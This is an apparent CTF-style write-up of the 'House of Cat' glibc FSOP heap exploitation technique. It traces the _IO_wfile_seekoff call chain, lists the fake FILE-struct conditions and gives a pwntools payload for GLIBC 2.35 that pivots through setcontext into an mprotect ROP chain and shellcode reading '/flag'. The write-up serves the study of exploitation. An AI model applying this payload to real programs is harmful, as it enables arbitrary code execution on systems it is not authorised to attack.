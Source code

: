[toc]

## Background

**House analysis**: [link](https://bbs.kanxue.com/thread-273895.htm) by author *CatF1y*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

On one hand, if we hijack the vtable pointer of file struct to `_IO_wfile_jumps`, I/O operation will call `_IO_wfile_xsputn` (+0x38) for functions like `puts` or `printf`.

> When we use `printf` to output a string with `\n`, the function will be replaced by `puts` and the next-line character is removed.

Then function calls can be illustrated as:

```
printf/puts ->_IO_XSPUTN->_IO_OVERFLOW
```

On the other hand, when a program exits, `_IO_flush_all_lockp` will iterate `_IO_list_all` and call `_IO_OVERFLOW` (+0x18) instead:

```
exit
	fcloseall
		_IO_cleanup
			_IO_flush_all_lockp
				_IO_OVERFLOW
```

Overall, if we hijack the vtable pointer to `_IO_wfile_jumps+0x10` when `puts/printf` is called, or to `_IO_wfile_jumps+0x30` in FSOP, I/O operation will now call **` _IO_wfile_seekoff`** (+0x48) instead.

For the House of Cat, we aim to write the `_IO_wfile_jumps` with an offset over the vtable pointer. To make I/O operation eventually executes  **` _IO_wfile_seekoff`** because of the offset made. We usually have two ways to trigger the operation introduced above, but to use the 1st way to trigger `_malloc_assert`, requiring us to own the primitive of arbitrary write to any address (to hijack `stderr`). Thus, in most scenarios we will go for FSOP.

## FSOP | _IO_wfile_seekoff

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Execution Flow**:

After meeting the required conditions, `_IO_WOVERFLOW` is called:

```
<_IO_wfile_seekoff+41>: mov rax, [rdi+0xa0];		
<_IO_wfile_seekoff+70>: mov rdx, [rax_0x8];
<_IO_wfile_seekoff+74>: cmp [rax+0x10], bx;
<_IO_switch_to_wget_mode+4> : mov rax, [rdi+0xa0];	# rax1=_wide_data
<_IO_switch_to_wget_mode+15>: mov rdx, [rax+0x20];
<_IO_switch_to_wget_mode+19>: cmp rdx, [rax+0x18];
<_IO_switch_to_wget_mode+25>: mov rax, [rax+0xe0];	# rax2=[rax1+0xe0] (wide vtable) 
<_IO_switch_to_wget_mode+37>: call [rax+0x18];		# call [rax2+0x18] (_overflow)
```

**Fake IO Deployment**:

- `vtable`:  `_IO_wfile_jumps+0x10`.
- `_lock`: A writable address, i.e. heap, writable libc address.
- `_wide_data`: An address `rax1` in our control, namely `*(fp+0xa0)=rax1`.
- `_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end`: namely  `*(A+0x0) != *(A+0x8)`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`. 
- If we make `_wide_data=fp+0x30`, actually we can let `fp->_IO_save_base < f->_IO_backup_base`, for less memory space required.
- `_wide_data->_wide_vtable`: Heap address `rax2` in our control, namely `*(A+0xe0)=rax2`.
- `_wide_data->_wide_vtable->overflow`: Starting function/gadget `C`  to hijack `RIP`, namely `*(rax2+0x18)=C`.

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```

- The value of `rcx` is related to `mode`, `_IO_helper_jumps`, and the fake `vtable` — the difference between two libc addresses validated by `_IO_validate_vtable`.
- If we want to execute `system` or one-gadget instead of `setcontext`, set `rdx` and make it larger than previous adjacent value to meet the requirements. 
- The set up for `mode` (+0xc0) is not definitely necessary .
- If we make `_flag&0x2!=0`, execution flow will get inside `buffered_vfprintf`, which makes `mode!=0`.

**Illustration**:

![house_of_cat_depict](House of Cat.assets/house_of_cat_depict.png)

